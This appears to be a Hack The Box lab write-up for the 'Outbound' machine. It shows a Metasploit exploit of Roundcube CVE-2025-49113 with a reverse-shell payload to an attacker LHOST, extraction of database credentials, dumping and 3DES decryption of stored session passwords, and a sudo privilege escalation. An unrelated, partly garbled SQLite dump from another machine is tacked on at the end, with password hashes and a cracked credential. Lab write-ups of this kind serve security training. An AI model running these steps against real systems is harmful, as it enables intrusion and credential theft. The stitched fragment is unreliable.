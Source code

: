```yaml
---
layout: post
title: htb-outbound
description: Easy-Rated HTB Machine
category: Labs
tags: linux privilege-escalation symlink webmail roundcube
image: assets/htb-outbound-preview.png
date: 2025-08-15 12:06 +0100
---
```

## TL;DR 


## Enumeration

### Nmap 

```bash 
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we setup `/etc/hosts`

```bash 
echo 10.10.11.77 outbound.htb mail.outbound.htb
```

>Other enumeration/fuzzing didn't lead to anything, so we move on to the web app.
{: .prompt-warning }

## Foothold

Accessing with the given credential of `tyler` leads to a vulnerable version of `Roundcube Webmail 1.6.10` with `CVE‑2025‑49113`.

There is a metasploit exploit for this CVE :

```bash 
msf6 > search CVE‑2025‑49113                                                                                                               
[-] No results from search                                                                                                                 
msf6 > search exploit roundcube                                                                                                            
                                                                                                                                           
Matching Modules                                                                                                                           
================                                                                                                                           
                                                                                                                                           
   #  Name                                                  Disclosure Date  Rank       Check  Description                                 
   -  ----                                                  ---------------  ----       -----  -----------                                 
   0  exploit/multi/http/roundcube_auth_rce_cve_2025_49113  2025-06-02       excellent  Yes    Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Obj
ect Deserialization 

   <REDACTED>                                                                                                                                        
                                                                                                                                           
msf6 > use 0                                                                                                                               
[*] Using configured payload linux/x64/meterpreter/reverse_tcp


msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set LHOST 10.10.14.194                                                        
LHOST => 10.10.14.194                                                                                                                      
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set USERNAME tyler                                                            
USERNAME => tyler                                                                                                                          
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set PASSWORD LhKL1o9Nm3X2                                                     
PASSWORD => LhKL1o9Nm3X2                                                                                                                   
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > set RHOSTS mail.outbound.htb                                                        
RHOSTS => mail.outbound.htb                                                                                                                
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > run

<REDACTED>
meterpreter>
```

But the thing is we still don't have access with a user other than the `www-data` one. 


## Lateral Movement 


### Tyler User

Simply `su tyler` with the same password given as a foothold will land us a shell as `tyler`.

After gaining shell access through meterpreter, I looked for config files using: 

```bash 
find / -name *conf* 2>/dev/null | grep roundcube
``` 

And we get some config files with some interesting ones:

```bash
$config['db_dsnw'] = 'mysql://<REDACTED>:<PASS>@localhost/<REDACTED>';

<REDACTED>

$config['des_key'] = '<REDACTED>';

$config['des_key'] = 'rcmail-!24ByteDESkey*Str';

```

Since the shell isn't interactive, we should dump anything with one command: 

```bash 
mysql -u roundcube -p<PASS> -h localhost roundcube -e 'use roundcube;select * from session;' -E                                    
```



``` 
*************************** 1. row ***************************                                                                     [0/1902]
sess_id: 6a5ktqih5uca6lj8vrmgh9v0oh
changed: 2025-06-08 15:46:40
     ip: 172.17.0.1
   vars: <REDACTED>
*************************** 2. row ***************************
sess_id: c2r6gpikgg3rb5drcm62hr73sb
changed: 2025-08-15 09:41:37
     ip: 172.17.0.1
   vars: bGFuZ3VhZ2V8czo1OiJlbl9VUyI7dGVtcHxiOjE7cmVxdWVzdF90b2tlbnxzOjMyOiJRNkpncXhuUzdSenN0a1RMbVhTYTJwVGJPeTV2bXZJRCI7
*************************** 3. row ***************************
sess_id: dd6meghpbbic254m3jjm208jjv
changed: 2025-08-15 09:32:56
     ip: 172.17.0.1
   vars: <REDACTED>
```

Now decoding the vars from the first session we get: 
```bash 
language|s:5:"en_US";imap_namespace|a:4:{s:8:"personal";a:1:{i:0;a:2:{i:0;s:0:"";i:1;s:1:"/";}}s:5:"other";N;s:6:"shared";N;s:10:"prefix_out";s:0:"";}imap_delimiter|s:1:"/";imap_list_conf|a:2:{i:0;N;i:1;a:0:{}}user_id|i:1;username|s:5:"jacob";storage_host|s:9:"localhost";storage_port|i:143;storage_ssl|b:0;password|s:32:"<REDACTED>";login_time|i:1749397119;timezone|s:13:"Europe/London";STORAGE_SPECIAL-USE|b:1;auth_secret|s:26:"<REDACTED>";request_token|s:32:"TIsOaABA1zHSXZOBpH6up5XFyayNRHaw";task|s:4:"mail";skin_config|a:7:{s:17:"supported_layouts";a:1:{i:0;s:10:"widescreen";}s:22:"jquery_ui_colors_theme";s:9:"bootstrap";s:18:"embed_css_location";s:17:"/styles/embed.css";s:19:"editor_css_location";s:17:"/styles/embed.css";s:17:"dark_mode_support";b:1;s:26:"media_browser_css_location";s:4:"none";s:21:"additional_logo_types";a:3:{i:0;s:4:"dark";i:1;s:5:"small";i:2;s:10:"small-dark";}}imap_host|s:9:"localhost";page|i:1;mbox|s:5:"INBOX";sort_col|s:0:"";sort_order|s:4:"DESC";STORAGE_THREAD|a:3:{i:0;s:10:"REFERENCES";i:1;s:4:"REFS";i:2;s:14:"ORDEREDSUBJECT";}STORAGE_QUOTA|b:0;STORAGE_LIST-EXTENDED|b:1;list_attrib|a:6:{s:4:"name";s:8:"messages";s:2:"id";s:11:"messagelist";s:5:"class";s:42:"listing messagelist sortheader fixedheader";s:15:"aria-labelledby";s:22:"aria-label-messagelist";s:9:"data-list";s:12:"message_list";s:14:"data-label-msg";s:18:"The list is empty.";}unseen_count|a:2:{s:5:"INBOX";i:2;s:5:"Trash";i:0;}folders|a:1:{s:5:"INBOX";a:2:{s:3:"cnt";i:2;s:6:"maxuid";i:3;}}list_mod_seq|s:2:"10";
```

### Jaccob User

The important fields are :
- `password` .
- `auth_secret` .

In [Here](https://www.roundcubeforum.net/index.php?topic=23399.0) we can find the way roundcube encrypts the database.

So using Cyberchef we can get the IV for the 3DES decryption, which is the first 8 bytes of the encrypted password (after decoding it with base64)
![Cyberchef1](assets/htb-outbound-3.png)

With the final result of :

![Cyberchef result](assets/htb-outbound-4.png)



>Note that the first 8 invalid characters are due to the recipe I put. I didn't remove the first 8 bytes, so you can remove them manually and login with:
`jacob:595mO8DmwGeD`
{: .prompt-warning }

595mO8DmwGeD

## User Flag

Simply `su` as `jacob` and we can read the Inbox mails with clear-text creds
```bash 
ssh jacob@10.10.11.77
```

>And we successfully get the User flag.
{: .prompt-tip }

## Privilege Escalation

```bash 
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

Below is a resource monintoring tool, already mentionned in a mail, which we will try to exploit and gain higher privileges since we can run it as `sudo`.

```bash 
jacob@outbound:~$ sudo /usr/bin/below -h
Usage: below [OPTIONS] [COMMAND]

Commands:
  live      Display live system data (interactive) (default)
  record    Record local system data (daemon mode)
  replay    Replay historical data (interactive)
  debug     Debugging facilities (for development use)
  dump      Dump historical data into parseable text format
  snapshot  Create a historical snapshot file for a given time range
  help      Print this message or the help of the given subcommand(s)

Options:
      --config <CONFIG>  [default: /etc/below/below.conf]
  -d, --debug            
  -h, --help             Print help
```

Some searching leads to:
![](assets/htb-outbound-5.png)

And we confirm we're indeed vulnerable: 

![vuln](assets/htb-outbound-6.png)

Just search for anyt poc online, the exploit isn't hard. And we succesfully get the root flag. 

![Here](assets/htb-outbound-7.png)

>Rooted.
{: .prompt-tip }



```# ARTIFICAL

$ cat instance/users.db
EitablemodelmodelCREATE TABLE model (
        id VARCHAR(36) NOT NULL,
        filename VARCHAR(120) NOT NULL,
        user_id INTEGER NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id)
))=indexsqlite_autoindex_model_1model]tableuseruserCREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(100) NOT NULL,
        email VARCHAR(120) NOT NULL,
        password VARCHAR(200) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username),
        UNIQUE (email)
?K;index''Marti@arti.htbarti@arti.htb445365ad804c1afe78ad5a5f3bd1fa83'Mtesttest@test.com098f6bcd4621d373cade4e832627b4f69+Madminadmin@gmail.com92d7ddd2a010c59511dc2905b7e14f64</Mpruebaprueba@prueba.comc893bad68927b457dbed39460e6afd62<3Mmarymary@artificial.htbbf041041e57f1aff3be7ea1abd6129d0>5Mroyerroyer@artificial.htbbc25b1f80f544c0ab451c02a3dca9fc6@7Mrobertrobert@artificial.htbb606c5f5136170f15444251665638b36<3Mmarkmark@artificial.htb0f3d8c76530022670f1c6029eed09ccb<3Mgaelgael@artificial.htbc99175974b6e192936d97224638a34f8
        'arti@arti.htb test     admin
pruebmary       royer
robermark       gael
        8\8pJ'arti@arti.htb     'test@test.co+admin@gmail.com/prueba@prueba.com3mary@artificial.htb5royer@artificial.htb7robert@artificial.htb3mark@artificial.htb3  g\\l@artificial.htb

RPU[e6312879-2340-4ee1-bf6a-6508327ff245e6312879-2340-4ee1-bf6a-6508327ff245.h5 R
)(Ue6312879-2340-4ee1-bf6a-6508327ff245($









gael:mattp005numbertwo```
